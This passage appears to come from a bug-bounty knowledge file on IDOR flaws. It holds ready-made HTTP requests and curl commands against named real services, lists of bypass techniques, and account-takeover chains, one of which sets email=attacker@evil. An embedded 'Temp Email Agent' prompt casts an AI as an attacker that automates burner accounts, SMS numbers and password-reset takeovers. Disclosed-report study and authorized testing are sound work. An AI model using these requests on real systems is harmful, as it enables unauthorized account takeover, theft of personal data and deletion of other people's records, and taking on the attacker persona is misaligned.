Host: hackerone.com
Content-Type: application/json
X-Csrf-Token: <token>

{"operationName":"UpdateCampaign","variables":{"input":{
  "campaign_id":"Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NQ==",
  "team_id":"Z2lkOi8vaGFja2Vyb25lL0VuZ2FnZW1lbnRzOjpCdWdCb3VudHlQcm9ncmFtLzU3MzI4"
 }},"query":"mutation UpdateCampaign($input: UpdateCampaignInput!) { updateCampaign(input: $input) { was_successful } }"}
```

### GraphQL introspection + cross-object mutation

```bash
curl -s -X POST https://target.com/graphql \
  -H 'Authorization: Bearer USER_B_TOKEN' -H 'Content-Type: application/json' \
  -d '{"query":"{ __schema { mutationType { fields { name args { name type { name } } } } } }"}'

curl -s -X POST https://target.com/graphql \
  -H 'Authorization: Bearer USER_B_TOKEN' -H 'Content-Type: application/json' \
  -d '{"query":"mutation { createOrUpdateHackerCertification(input: { id: \"VICTIM_CERT_ID\" }) { id name } }"}'
```

### Body-contained ID / session misbinding (PayPal #415081, Mozilla #3154983)

```
PUT /businessmanage/users/api/v1/users HTTP/1.1
Host: www.paypal.com
[{"id":"1660971175791245038","accessPoint":{"privileges":
 ["MANUAL_REFERENCE_TXN","VIEW_CUSTOMERS","SEND_MONEY"],
 "id":"446113496","accounts":["victim@business.com"]},"roleID":0}]
# First id = business context; second id = enumerable secondary-user id
```

```
POST /v1/account/destroy HTTP/1.1
Host: accounts.firefox.com
Authorization: Bearer ATTACKER_SESSION
Content-Type: application/json

{"email":"victim@example.com","authPW":"<victim authPW hash>"}
# Session belongs to attacker; body object belongs to victim -> victim deleted
```

### Hidden-param IDOR (CrowdSignal #915114)

```
GET /users/invite-user.php?id=19920465&popup=1 HTTP/1.1
Host: app.crowdsignal.com
Cookie: <attacker session>
# Response leaks victim email; clicking "Update Permissions" -> login as victim
```

### List/filter endpoint IDOR (HackerOne #2487889)

```
POST /bugs.json HTTP/2
Host: hackerone.com
Cookie: __Host-session=<session>
X-Csrf-Token: <csrf>
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded

text_query=1&organization_id=58579&view=message&limit=1000&page=1&substates%5B%5D=editing
# organization_id from a policy page; limit/page dump all private reports in the org
```

### Encrypted ID + response tampering (Starbucks #876300 / campaign.starbucks.com.sg)

```javascript
// AES key, IV and mode were recoverable from a JS file.
// 1. Intercept POST /api/users/login response; replace plaintext "mid" with any value 1..6085045.
// 2. Forward POST /api/users/info; grab encrypted "data" from the response.
// 3. In console: decrypt(data) with harvested key/IV -> full victim profile JSON.
```

### HTTP parameter pollution / mass assignment / JSON wrapping

```
GET /api/document?id=attacker_id&id=victim_id
GET /api/users?user_id=attacker_id[]&user_id=victim_id[]
{"user_id":"attacker_id","user_id":"victim_id"}          # duplicate JSON keys
{"id":111}            -> {"id":{"id":111}}               # nested wrapper
{"id":19}             -> {"id":[19]}                     # array wrapper
{"name":"John","role":"OWNER","owner_id":"victim","is_admin":true}   # mass assignment
userId / user_id / UserId / uid / account                 # name variants
```

### Leak-harvesting and source review

```bash
curl -s https://target.com/static/app.js | grep -Eo '"id":"[a-f0-9-]{36}"' | sort -u
curl -s -H 'Cookie: session=USER_A' https://target.com/api/v1/dashboard | grep -i '_id'
# ORM/authorization anti-patterns
grep -rE 'findById|findOne|getById' --include='*.js' .
grep -rE 'Model\.find\(params' --include='*.js' .            # missing userId scope
# secure pattern: Model.find({ _id: params.id, userId: req.user.id })
```

### Alternative verbs / versions

```bash
for m in GET POST PUT PATCH DELETE OPTIONS HEAD; do
  curl -s -X "$m" -H 'Authorization: Bearer USER_B_TOKEN' \
    https://target.com/api/v1/users/USER_A_ID/profile
done
# /v3/users/123 -> 403 but /v1/users/123 -> 200 (authorization is version-specific)
```

### Report-grounded request excerpts (from the 256 full reports)

```http
POST /api/v1/orders HTTP/1.1                 # Nord Security #751577 — user_id body swap
Host: join.nordvpn.com
Accept: application/json
Content-Type: application/json

{"payment":{"provider_method_account":"6xdxdd","parameters":{}},"action":"order",
 "plan_id":653,"user_id":20027039,"tax_country_code":"TW","payment_retry":0,"is_installment":false}
# change user_id 20027039 -> 23093782 -> another user's payment/order record
```

```http
POST / HTTP/2                                # Reddit #1658418 — any subreddit's mod logs
Host: gql.reddit.com
Content-Type: application/json

{"id":"6243efcbc61d","variables":{"subredditName":"any-subreddit"}}
# no check that the caller moderates that subreddit
```

```http
POST /app/getUserNotes HTTP/1.1              # MTN #1773609 — PII by known email
Host: mtnmobad.mtnbusiness.com.ng
Content-Type: application/json
Cookie: connect.sid=<session>

{"params":{"updates":[{"param":"user","value":{"userEmail":"<VICTIM_EMAIL>"}}]}}
```

```http
GET /attachments/938540538 HTTP/1.1          # BCM Messenger #668439 — mobile attachment ID
Host: ameim.bs2dl.yy.com
X-Signal-Agent: OWA
# numeric attachment ID; brute-force nearby values to download others' files
```

```http
POST /sync HTTP/1.1                          # CS Money #990878 — steamid = object key
Host: 3d.cs.money
Content-Type: application/json;charset=utf-8
Cookie: steamid=<victim-steamid>
# save/edit/delete another user's builds by swapping the steamid cookie
```

```http
GET /api/v1/users/@hasn0xxxx                 # WakaTime #2524562 — username in path
Host: wakatime.com
# swap /api/v1/users/current -> /api/v1/users/<victim> to read their profile
```

```http
POST /api/v1/method.call/deleteMessage HTTP/1.1   # Rocket.Chat #2028450
Host: target.com
# change the message id to one from a channel you left / were banned from
```

```http
POST /app/dashboardData HTTP/1.1             # MTN #1698006 — leak emails + ids
Host: mtnmobad.mtnbusiness.com.ng
# response contains emails and ids; use them in /app/updateUser to edit the victim
```

```http
GET /p3/drivers/uploadDocument ...           # Uber #194594 — overwrite another driver's docs
Host: partners.uber.com
# multi-driver account; driver can overwrite documents belonging to other drivers
```

```http
GET /v3/personal_area/stats/equity?time_range=365&accounts=xxx HTTP/2  # EXNESS #1644436
Host: my.exness.com
Authorization: Bearer xyz
# change accounts= to another MT account number -> view their equity/net profit
```

```http
POST /reports/export HTTP/1.1                # HackerOne #510759 — cross-team CSV export
Host: hackerone.com
Content-Type: multipart/form-data; boundary=...
Content-Disposition: form-data; name="report_ids[]"

17
Content-Disposition: form-data; name="report_ids[]"

118
```

```http
GET /Common/EditOne/Person/{account_id}      # U.S. DoD #741683 — profile-image upload
Host: target.com
# intercept the image upload; change the 'personId' value to account2's account_id
# -> the image lands in the victim's "approved" tab
```

```http
GET /login.php HTTP/1.1                       # U.S. DoD #1004745 → #1004750 ATO chain
Cookie: UID2=4820038
# change UID2 to a foreign value (4820036) to view another user; the leaked email
# is then used in #1004750 with UID2=4820041 to reset that user's password
```

```http
DELETE /nextcloud/ocs/v2.php/apps/files_sharing/api/v1/shares/[share-id]?format=json
Host: target.com                              # Nextcloud #153905 — disable sharing
requesttoken: [token of shared user]
OCS-APIREQUEST: true
Cookie: [cookie of shared user]
```

```http
POST /api/v1/orders HTTP/1.1                 # Affirm #1323406 — checkout_ari swap
Host: razer.com
# change "checkout_ari":"XXXXXXXXXXXXXXXX" to another user's token -> full order/PII
```

```http
POST /JOINOnline/Board/SubmitDoc HTTP/1.1    # U.S. DoD #2586662 — modify demographic details
Host: www.█████████
Cookie: {YOUR-COOKIES}
# multipart field __RequestVerificationToken + form field Id=1328 -> change to 1327 (User-B)
```

### Detection differential (avoid the top N/A driver)

A 200 is not proof. Compare three responses as User B — your own object, the victim's object, and a known-invalid ID — and require that the victim response contains data that only the victim owns. #2487889, #2207248 and #2524562 were accepted because the foreign data was concrete (private report titles, card last-four, order/PII records), not just a different status code. Watch for the silent-read failure mode: 200 with an empty array, redacted fields, or "access denied" in the body is a protected object, not a finding.

---

## Common Root Causes

1. **Missing ownership check in the data query** — `Invoice.findById(req.params.id)` with no `userId: req.user.id` scope. The single most common root cause across all 256 full reports (`idor-object-ref` 179).
2. **Authorization at the route level, not the object level** — middleware confirms "is the user logged in?" but handlers never ask "does this user own this object?". #1489470 exposed admin-panel endpoints in a JS file with no object-level check; #1061292 returned registration PII unauthenticated.
3. **Trusting client-supplied IDs in request bodies** — `business_id`, `user_id`, `campaign_id`, `org_id`, `mid`, `email`, `checkout_ari`, `userEmail`, `Id` taken directly from JSON/form data without verifying the caller belongs to that context (PayPal, Mozilla, HackerOne, Nord, MTN, Affirm, U.S. DoD #2586662).
4. **Session/object misbinding** — the session authenticates the request but the action is applied to the object named in the body; the server checks one thing and modifies another (#3154983, GitHub #3560256, Acronis #1901713).
5. **GraphQL resolvers without field-level authorization** — resolvers generated from the schema fetch by ID with no permission check; nested relations bypass the root resolver's auth (#2122671, #2207248, #2218334, #2633771, #984965, #2139190).
6. **Inconsistent authorization across HTTP verbs and API versions** — the verb the UI uses is protected; PUT/DELETE or an older `/v1/` route is not (IBM #2456603, Veris #120291).
7. **Obfuscation mistaken for access control** — base64 GIDs, `steamid`, and AES-encrypted IDs are reversible or publicly discoverable when the encoding/key is in the JS bundle or simply incremented (#1969141, #447930, Starbucks, #990878, #1182465).
8. **Multi-tenant isolation failure** — per-user checks present, per-tenant (`org_id`/`team_id`) checks absent; cross-tenant bugs affect every tenant and rate higher (#984965, #1066203, #1063022, #835005).
9. **New features ship without inheriting the parent authorization model** — unreleased/unlaunched endpoints and experimental registries (HackerOne Copilot #2218334, GitLab #2528293, Reddit badges #2618486).
10. **Shared auth state across hosts** — staging/alternate sites sharing a DB or session cookie with production turn a session-scoping mistake into cross-site ATO (Starbucks #876300, #715054).
11. **"Unguessable" IDs leaked in the object's own public context** — `ImageId` + `ProfileId` present in a public profile link, IDs in `Location` headers or list responses (#1608735, #1698006, #1085782, #1592587).

---

## Bypass Techniques

Grounded in the disclosed reports above — apply when the first direct substitution returns 403/404:

- **GraphQL mutations, not just queries:** every mutation taking an `id:` is a write/delete primitive. #2122671 changed `id` in `CreateOrUpdateHackerCertification` and deleted every certification; #2218334 used `DestroyLlmConversation` on an unreleased feature; #1969141 re-encoded a base64 `gid://hackerone/Campaign/N` to delete any campaign; #2633771 abused base64 `tagId` in `AddTagToAssets`; #2139190 locked any report via `LockReport`. Enumerate operations via introspection and new JS bundles.

- **Session misbinding (body over session):** send your valid session but the victim's object reference in the body. Mozilla #3154983 deleted the account matching `email`/`authPW` in the body; GitHub #3560256 authorized one repo but changed another via `owner_id`; MTN #1698006 saved profile changes to the victim identified by body `id`/`email`.

- **Cross-organization session replay:** replay the request with a session header from a different org. Acronis #1901713 recovered a backup by sending `X-Apigw-Session` from another organization to `/bc/api/ams/recovery/plan_operations/run`; #1744264 swapped the reddit session parameter to read and message another user's chat.

- **HTTP verb / method tampering:** a protection that blocks GET may not block PUT/PATCH/DELETE, and method-override headers can bypass router-level checks (IBM #2456603, Veris #120291).

- **ID encoding/decoding and guessing:** decode base64 GIDs, increment the numeric part, re-encode (#1969141, #447930); recover AES key/IV/mode from a JS file to forge encrypted IDs; exploit sequential ranges (PayPal secondary-user IDs, CrowdSignal user IDs, Starbucks `mid`, GitLab model IDs, Veris terminal IDs, Acronis guessable token tail #1182465).

- **Public identifier as the object key:** use Steam IDs found via `steamidfinder.com` (#990878), emails (#1773609, #3154983), or usernames (#2524562) as the direct reference when no numeric ID exists.

- **Response-side tampering to inject an ID you cannot guess:** Starbucks — intercept the *login response* and replace the plaintext member ID, so the app itself encrypts the attacker-chosen ID. Then use the app's own decryption routine in the console to read the result.

- **Hidden / implicit parameters:** add IDs the request does not currently send (`?user_id=<victim>`, `account`, `uid`, `owner_id`, `Id`), discovered by diffing JS/mobile traffic and other endpoints (Logitech #983070 used a `user_id` field when creating an app; U.S. DoD #2586662 used a form `Id` field).

- **Parameter minimization to surface an object page:** strip all parameters except the ID and CSRF token; the resulting "Name must be provided" error can print the object's page and its data (#1695454, #283419).

- **HTTP parameter pollution and parser confusion:** `?id=own&id=victim`, duplicate JSON keys, array/`{"id":{"id":N}}` wrappers; parsers disagree on first-vs-last or scalar-vs-object.

- **Mass assignment:** add fields the API did not intend to expose — `role`, `is_admin`, `permissions`, `owner_id`, `price`, `status` (Acronis #1403176 price manipulation, Streamlabs #983070).

- **API-version and path drift:** auth fixed on `/v3/` but not `/v1/`; test older versions found in JS bundles and mobile apps.

- **Cross-site session reuse:** check staging/alternate hosts for endpoints that bind or copy sessions into the production domain (Starbucks #876300, #715054).

- **Cookie value tampering:** replace `UID2=`, `PHPSESSID`, `steamid=`, or `connect.sid` with a foreign user's value (#1004745 → #1004750 ATO chain).

- **Querying the object interface directly:** GraphQL `node(id: ...)` accepts a re-encoded global ID for any object type, exposing "random" UUID-backed records by incrementing the primary key (#447930).

- **Leak UUIDs elsewhere:** harvest opaque IDs from list responses, `Location` headers, error messages, webhooks, emails, analytics/trace endpoints, GraphQL error suggestions, or public `.json` report endpoints, then replay them against protected objects (#1608735, #1085782, #703894).

- **Silent-read differential:** watch for 200 with empty arrays, redacted fields, or "access denied" in the body — validate the data actually changed/leaked before claiming the bug.

---

## Gate 0 Validation

Before writing the report, confirm all three:

1. **What can the attacker DO right now?** Be specific about the action and the foreign object: "An authenticated low-privilege user can send `PUT /businessmanage/users/api/v1/users` with another business's user ID and silently grant that user access to their business functions" or "...can change `id` in `CreateOrUpdateHackerCertification` and permanently delete any researcher's certifications." If the answer is only "the server returns 200," you do not have a finding yet.

2. **What does the victim LOSE?** Map to CIA: confidentiality (payments data, private report titles, PII), integrity (edited videos/links, added secondary users, changed roles), availability (deleted photos, campaigns, certifications, accounts). "The victim's account is deleted" is reportable; "I can see an ID" is not. Note second-order leakage — #2122671's deletion response also exposed non-public certification fields, raising severity from Medium to High.

3. **Can it be reproduced in 10 minutes from scratch?** Two fresh accounts (plus a second tenant if cross-tenant), exact request with the victim's ID, a 200 with foreign data or a confirmed persistent state change, and no reliance on pre-existing state or timing. If you need a specific race, token, or luck, resolve the flakiness before submitting.

---

## Real Impact Examples

### Scenario A: Encrypted sequential ID → six-million-record PII leak and impersonation (Starbucks Singapore, campaign.starbucks.com.sg / #876300 family)

The marketing site called `/api/users/info` with an AES-encrypted `mid` and returned encrypted user data. Burp Intruder with invalid values produced "AES decryption error" messages, revealing the parameter was encrypted, not merely encoded. The key, IV, and mode were sitting in a JS file; member IDs were sequential from 1 to 6,085,045. By intercepting the login response and replacing the plaintext member ID with any chosen value, the attacker made the app encrypt an arbitrary victim ID, then used the app's own decryption routine in the console to read full profiles. IDs below one million carried name, gender, favorite drinks/foods, frequent outlet, join date, and usual order time — enabling physical-world profiling. The same flaw allowed impersonation of those users. (Technique from the Dreamlab writeup; sibling reports #876300 escalated a shared PHPSESSID across hosts to full ATO.)

### Scenario B: GraphQL IDOR with second-order data leak → mass irreversible destruction (HackerOne #2122671, $12,500)

While editing their own Licenses & Certifications, the researcher observed a sequential `id` in the `CreateOrUpdateHackerCertification` mutation body. Changing it deleted another user's credentials; iterating the range could wipe every certification on the platform. HackerOne initially rated it Medium (integrity only, subset of data). The researcher pushed back citing the near-identical #1969141 campaigns case, and on re-review HackerOne found the deletion response also *leaked* non-public fields (certification name, organization, issue/expiration dates, certification ID and URL). Confidentiality raised to Low and PR to None bumped severity to High (7.5), with an extra $5,000 — plus another $5,000 retroactive a year later. Lesson: read the full response of a destructive IDOR, and cite precedent when contesting severity.

### Scenario C: One parameter → silent account takeover without user interaction (Automattic/CrowdSignal #915114, critical)

Clicking "Edit" on a team member sent `GET /users/invite-user.php?id=<userid>&popup=1`. The `id` was sequential across the range `00010006..19920500+`. Substituting a foreign ID returned that victim's email, and clicking "Update Permissions" authenticated the attacker directly into the victim's account — no password, no notification, no victim interaction. A 30-second parameter change produced full ATO. The same team feature also allowed moving foreign content into the attacker's team (#915127), showing how one IDOR family yields multiple independent findings.

### Scenario D: Cross-organization session replay → backup takeover (Acronis #1901713) and mass member deletion (Veris #120115)

Two full-report patterns show the blast radius of trusting a session header or an ID range. Acronis #1901713: during a backup recovery to a second device, replaying `/bc/api/ams/recovery/plan_operations/run` with an `X-Apigw-Session` belonging to another organization recovered that organization's backup onto the attacker's machine — a cross-tenant session-binding failure. Veris #120115: changing the ID in an organization-member deletion endpoint let an attacker delete any member of any organization, and the researcher confirmed it with two accounts; sibling reports in the same family covered deleting any group, venue, terminal, and rule (#120121, #120288, #120123, #120314). Both show that when the object key is trusted over the session context, read/write/delete scale to the entire user base.

### Scenario E: Numeric ID → unauthenticated PII and document exfiltration (U.S. DoD #1626508 / #2586584 / #2586641 family)

Several DoD reports show what one enumerable numeric ID yields without any ownership check. #1626508: `https://www.<host>/Download.aspx?id=4675` served bank taxes, contracts, full addresses, mobile numbers, and emails — PII of users and soldiers — to an unauthenticated attacker who simply changed `id`. #2586584 exposed other users' emails and names by changing the numeric `user-id` in `/JOINOnline/UpdateProfile/<user-id>`. #2586641 showed the same base-path family (`/JOINOnline/Board/QuestionCard/<user-id>/...`) leaking biographical details across multiple endpoints, with the researcher creating User-A (`1328`) and User-B (`1327`) to prove it. The lesson: a single unscoped integer parameter in a government portal can disclose an entire population's PII.

---

## Disclosed Report Citations

All IDs below are real and drawn from the study pack and the TOP IDOR report list. 30 representative cases with subclass, technique, and year/bounty where known.

1. **PayPal — IDOR to add secondary users in www.paypal.com/businessmanage/users/api/v1/users** ([H1 #415081](https://hackerone.com/reports/415081)) — cross-account role assignment (vertical BOLA), sequential secondary-user `id` in a PUT body; 2018 — $10,500.
2. **Nord Security — IDOR allow access to payments data of any user** ([H1 #751577](https://hackerone.com/reports/751577)) — financial-data read via JSON-body `user_id` swap in `POST /api/v1/orders`; unauthenticated ID enumeration; 2019 — no bounty.
3. **HackerOne — Delete all Licenses and certifications via CreateOrUpdateHackerCertification GraphQL query** ([H1 #2122671](https://hackerone.com/reports/2122671)) — GraphQL mutation IDOR (destructive) + second-order disclosure, change `id` and iterate range; 2023 — $12,500.
4. **HackerOne — Insecure Direct Object Reference (IDOR) - Delete Campaigns** ([H1 #1969141](https://hackerone.com/reports/1969141)) — base64-GID GraphQL mutation IDOR (destructive), decode/increment/re-encode `campaign_id`; 2023 — no bounty (High 8.3).
5. **Pornhub — idor allows you to delete photos and album from a gallery** ([H1 #380410](https://hackerone.com/reports/380410)) — destructive content IDOR, substitute another user's photo/album ID; ~2018 — $1,500.
6. **Starbucks — Singapore: Account Takeover via IDOR** ([H1 #876300](https://hackerone.com/reports/876300)) — cross-site session misbinding → ATO, shared DB/cookie across hosts; 2020 — no bounty recorded.
7. **HackerOne — Insecure Direct Object Reference Allows Viewing Private Report Details via /bugs.json** ([H1 #2487889](https://hackerone.com/reports/2487889)) — list/filter endpoint IDOR (cross-org read), client-supplied `organization_id` + `limit/page`; 2024 — no bounty (Critical).
8. **Pornhub — IDOR allows any user to edit others videos** ([H1 #681473](https://hackerone.com/reports/681473)) — integrity IDOR on private videos, change private-video ID to edit/publish; ~2018 — $1,500.
9. **Mozilla — Account Deletion via Session Misbinding** ([H1 #3154983](https://hackerone.com/reports/3154983)) — body-over-session destructive IDOR, attacker session + victim `email`/`authPW`; ~2024 — no bounty (High).
10. **Unikrn — An IDOR that can lead to enumeration of a user and disclosure of email and phone number within cashier** ([H1 #1966006](https://hackerone.com/reports/1966006)) — cashier/payment-flow PII read, manipulate the user identifier; ~2022 — $3,000.
11. **TikTok — IDOR delete any Tickets on ads.tiktok.com** ([H1 #1475520](https://hackerone.com/reports/1475520)) — destructive ticket IDOR, substitute a foreign ticket ID in the delete action; no bounty recorded.
12. **Yelp — I.D.O.R To Order/Book/Buy/Reserve for free using another user's credit card** ([H1 #391092](https://hackerone.com/reports/391092)) — financial-action IDOR (cross-user payment method), reference a victim's stored card; ~2018 — no bounty.
13. **HackerOne — IDOR vulnerability in unreleased HackerOne Copilot feature** ([H1 #2218334](https://hackerone.com/reports/2218334)) — unreleased GraphQL mutation IDOR, found `DestroyLlmConversation` in monitored JS; 2023 — no bounty.
14. **Reddit — IDOR allows an attacker to modify the links of any user** ([H1 #1661113](https://hackerone.com/reports/1661113)) — integrity IDOR via GraphQL, change `username` argument to read/modify foreign links; 2022 — no bounty.
15. **Automattic (CrowdSignal) — IDOR when editing users leads to Account Takeover without User Interaction** ([H1 #915114](https://hackerone.com/reports/915114)) — sequential user-ID IDOR → silent ATO, `invite-user.php?id=` + "Update Permissions"; 2020 — no bounty (Critical).
16. **Shopify — IDOR on GraphQL queries BillingDocumentDownload and BillDetails** ([H1 #2207248](https://hackerone.com/reports/2207248)) — GraphQL node-ID substitution (cross-merchant read), swap incremental `BillingInvoice` ID; 2023 — $5,000.
17. **Automattic — IDOR leads to Edit Anyone's Blogs / Websites** ([H1 #974222](https://hackerone.com/reports/974222)) — integrity IDOR via hidden form field, change `hidBlogID` with victim's value; 2020 — no bounty.
18. **HackerOne — IDOR Vulnerability at AddTagToAssets operation name** ([H1 #2633771](https://hackerone.com/reports/2633771)) — GraphQL mutation IDOR with base64 `tagId`, decode/increment/re-encode; no bounty recorded.
19. **Reddit — Getting access of mod logs from any public or restricted subreddit with IDOR vulnerability** ([H1 #1658418](https://hackerone.com/reports/1658418)) — role-check omission on GraphQL, change `subredditName` to any subreddit; 2022 — $5,000.
20. **Acronis — IDOR vulnerability (Price manipulation)** ([H1 #1403176](https://hackerone.com/reports/1403176)) — financial-integrity IDOR, change product `price` in the intercepted buy request; 2021 — no bounty.
21. **X / xAI (Twitter MoPub) — IDOR and statistics leakage in Orders** ([H1 #544329](https://hackerone.com/reports/544329)) — order-statistics read via JSON-body `__orderKeys__` swap; 2019 — $289.
22. **CS Money — IDOR in https://3d.cs.money/** ([H1 #990878](https://hackerone.com/reports/990878)) — build save/edit/delete via `steamid=` cookie swap, public Steam ID as object key; 2020 — no bounty.
23. **WakaTime — IDOR to view order information of users and personal information** ([H1 #2524562](https://hackerone.com/reports/2524562)) — username-in-path read, swap `/api/v1/users/current` → `/api/v1/users/@name`; 2024 — no bounty.
24. **BCM Messenger — IDOR leading to downloading of any attachment** ([H1 #668439](https://hackerone.com/reports/668439)) — mobile numeric attachment ID, brute-force nearby values; 2019 — no bounty.
25. **GitLab — IDOR Exposes All Machine Learning Models** ([H1 #2528293](https://hackerone.com/reports/2528293)) — cross-project read via incremental model IDs, enumerate in `/api/graphql`; no bounty recorded ($1,160 reported).
26. **LinkedIn — IDOR allows an attacker to delete anyone's featured photo** ([H1 #1608735](https://hackerone.com/reports/1608735)) — destructive media IDOR, harvest `ImageId` + `ProfileId` from public profile link; 2022 — no bounty.
27. **GitHub — Cross-repository IDOR in /settings/security_analysis/bypass_reviewers** ([H1 #3560256](https://hackerone.com/reports/3560256)) — cross-repo authorization bypass, authorize one repo but modify another via `owner_id`; no bounty recorded.
28. **Affirm — IDOR to view order information of users and personal information** ([H1 #1323406](https://hackerone.com/reports/1323406)) — financial-data read via body token swap, change `checkout_ari`; 2021 — $500.
29. **U.S. Dept Of Defense — IDOR leading unauthenticated attacker to download documents discloses PII of users and soldiers via Download.aspx?id=** ([H1 #1626508](https://hackerone.com/reports/1626508)) — unauthenticated document/PII disclosure via numeric `id`; 2022 — $500.
30. **Acronis — IDOR in backup recovery functionality** ([H1 #1901713](https://hackerone.com/reports/1901713)) — cross-tenant session-binding IDOR, replay `X-Apigw-Session` from another org to recover a backup; no bounty recorded.

---

## Related Skills & Chains

- **`hunt-ato`** — Profile/user-edit IDOR is the shortest path from "read someone's data" to "own their account." Chain primitive: `PATCH /api/users/{victim_uid}` with attacker session → set `email=attacker@evil` → password reset → full ATO. CrowdSignal #915114, Automattic #950881, and Mozilla #3154983 are IDOR-native ATOs; Starbucks #876300 crosses hosts. Cross-refs `hunt-ato` email-change-without-reauth path.
- **`hunt-graphql`** — GraphQL resolvers without field-level auth are IDOR-by-default and introspection hands you the schema. Chain primitive: `__schema` → enumerate every mutation accepting `id:` → substitute victim IDs across `updateCampaign`, `createOrUpdateHackerCertification`, `DestroyLlmConversation`, `BillingDocumentDownload`, `AddTagToAssets`, `LockReport`, `AddRulesToPixelEvents` → mass read/delete fan-out from one query.
- **`hunt-auth-bypass`** — Object-level authorization failure plus missing route-level auth is the canonical IDOR amplifier: no session at all is needed for the read. Nord #751577-style financial reads, U.S. DoD #1626508's `Download.aspx?id=`, and Acronis #1061292's unauthenticated `pendingUserDetails` endpoint sit at this intersection.
- **`hunt-api-misconfig`** — Mass assignment and verb/version drift are the most reliable IDOR bypasses. Chain primitive: horizontal IDOR on `/api/teams/{victim}/members` + `{"role":"OWNER"}` in the body → cross-tenant privilege escalation; Acronis #1403176 shows price-field tampering; IBM #2456603 shows method tampering.
- **`hunt-business-logic`** — Financial-impact chains: read-IDOR on `/users/{id}/orders` → write-IDOR on `/orders/{order_id}/refund` → money moves to an attacker-controlled account (Yelp #391092, PayPal #415081, Affirm #1323406, Reddit #1213765 coin-purchase price manipulation).
- **`security-arsenal`** — Pull the IDOR Bypass Tables before testing: HTTP parameter pollution (`?id=own&id=victim`), nested JSON wrappers, `uid`/`userId`/`user_id`/`account` name variants, base64 GID and sequential-ID wordlists.
- **`triage-validation`** — Run the pre-severity gate on 200-but-no-data responses (empty arrays, redacted fields, "denied" in body) — the top N/A driver. Also use it to contest under-rated severity with precedent reports, as in #2122671.


---

## Merged Source Knowledge

This section consolidates **216 unique knowledge blocks** from 5 curated source skills in `hunt-skills/`, `normal-skills/`, and `offensive-skills/`. Blocks overlapping the report-mined sections above were dropped; the complete, globally deduplicated source corpus is archived at `references/source-knowledge.md` (257 unique sections). No source section appears in more than one hunt skill.


### From `hunt-skills/bountyforge/references/hacking-agents/temp-email-agent.md`

# Temp Email Agent

You are an attacker that automates disposable email creation, inbox monitoring, and verification flow exploitation. You create burner identities for multi-account testing, IDOR verification, email-based auth bypass, and ATO chain validation.

Other agents cover injection, access control, and browser automation. You own: email creation, inbox polling, verification link extraction, and email-based attack chains.

### Disposable Email Creation

Pick the right provider based on the target's requirements:

| Requirement | Provider | API |
|-------------|----------|-----|
| Quick inbox, no signup | Guerrilla Mail | `https://api.guerrillamail.com/ajax.php?f=get_email_address` |
| Public inboxes, any address | Mailinator | `https://www.mailinator.com/api/v2/domains/public/inboxes/{name}` |
| Gmail-style, longer-lived | Emailnator | Web interface |
| Self-destructing, extendable | 10MinuteMail | Web interface |
| No registration, any @yopmail | YOPmail | `http://www.yopmail.com/api/email.php?e={address}` |
| Temporary, mobile app | Temp-Mail | `https://api.temp-mail.org/request/mail/md5/{hash}` |

**Programmatic workflow:**
```bash

# Guerrilla Mail — create inbox
EMAIL=$(curl -s "https://api.guerrillamail.com/ajax.php?f=get_email_address" | jq -r '.email_addr')
echo "Created: $EMAIL"

# Guerrilla Mail — poll for messages
curl -s "https://api.guerrillamail.com/ajax.php?f=check_email&seq=0" | jq '.list[] | "\(.mail_id): \(.mail_from) | \(.mail_subject)"'

# Guerrilla Mail — read specific email
curl -s "https://api.guerrillamail.com/ajax.php?f=fetch_email&email_id=EMAIL_ID" | jq -r '.mail_body'
```

**Gmail alias trick:**
```bash

# Create N test accounts using + alias
for i in $(seq 1 10); do
  echo "testuser+account${i}@gmail.com"
done

### Verification Link Extraction

Most email verification flows include a link with a token. Extract it programmatically:

```bash

# After sending verification, poll inbox
curl -s "https://api.guerrillamail.com/ajax.php?f=check_email&seq=0" | \
  jq -r '.list[] | select(.mail_subject | test("verify|confirm|activate"; "i")) | .mail_id' | \
  head -1 | \
  xargs -I{} curl -s "https://api.guerrillamail.com/ajax.php?f=fetch_email&email_id={}}" | \
  grep -oP 'https?://[^"<>\s]+(?:verify|confirm|activate)[^"<>\s]*'
```

### Email Confirmation Bypass Testing

This pattern appeared 3 times in the top 100 reports against a major platform.

**Attack flow:**
1. Create account with Email A (your disposable)
2. Change email to Email B (target victim)
3. Where does confirmation go? A or B?
4. If it goes to A → email confirmation bypass confirmed
5. Check SSO/OAuth: does confirming email on your account give access to victim's data?

**Testing checklist:**
- [ ] Create account with disposable email A
- [ ] Change email to a different address B
- [ ] Poll both inboxes for confirmation link
- [ ] If link goes to A → bypass confirmed
- [ ] Test if confirming gives SSO access to accounts using email B
- [ ] Test if you can set password for OAuth-only accounts

### Multi-Account Testing (IDOR Verification)

IDOR requires two accounts. Create both with disposable emails:

```bash

# Create Account A
EMAIL_A=$(curl -s "https://api.guerrillamail.com/ajax.php?f=get_email_address" | jq -r '.email_addr')

# Create Account B (different provider to avoid cross-contamination)
EMAIL_B=$(curl -s "https://api.guerrillamail.com/ajax.php?f=get_email_address&lang=en" | jq -r '.email_addr')

# Trigger reset for victim's email
curl -X POST "https://target.com/forgot-password" \
  -d "email=victim@target.com"

# Poll your inbox if you changed victim's email to yours
curl -s "https://api.guerrillamail.com/ajax.php?f=check_email&seq=0" | jq '.list[]'

# Use token to reset password
curl -X POST "https://target.com/reset-password" \
  -d "token=$RESET_TOKEN&new_password=attacker123"
```

### Temp Phone Numbers (for SMS verification)

| Service | API | Notes |
|---------|-----|-------|
| SMSPool | `https://api.smspool.net` | Paid, reliable, 100+ countries |
| 5SIM | `https://5sim.net/api` | Paid, per-activation |
| TextVerified | Web | US numbers, per-verification |
| Quackr | Web | Free, limited availability |

```bash

# SMSPool — get number and poll for SMS
NUMBER=$(curl -s "https://api.smspool.net/purchase/sms?token=API_KEY&service=TARGET&country=us" | jq -r '.number')

# Poll for SMS
curl -s "https://api.smspool.net/sms/receive?token=API_KEY&number=$NUMBER" | jq -r '.sms'
```

## Output Fields

Add to FINDINGs:

```
email_provider: <Guerrilla Mail | Mailinator | custom>
email_address: <the disposable email used>
verification_bypassed: true | false
confirmation_goes_to: <old_email | new_email>
accounts_created: <number of test accounts>
sms_required: true | false
sms_provider: <provider used>
```

## Rules
- Use different email providers for Account A and B to avoid cross-contamination
- Save all account credentials in session notes — needed for PoC
- Some programs detect disposable domains — have Gmail backup ready
- Always test email confirmation bypass on profile email change flows
- Check if target blocks `+` aliases — if not, use them for faster creation


### From `hunt-skills/bountyforge/skills/bug-bounty/knowledge.md`

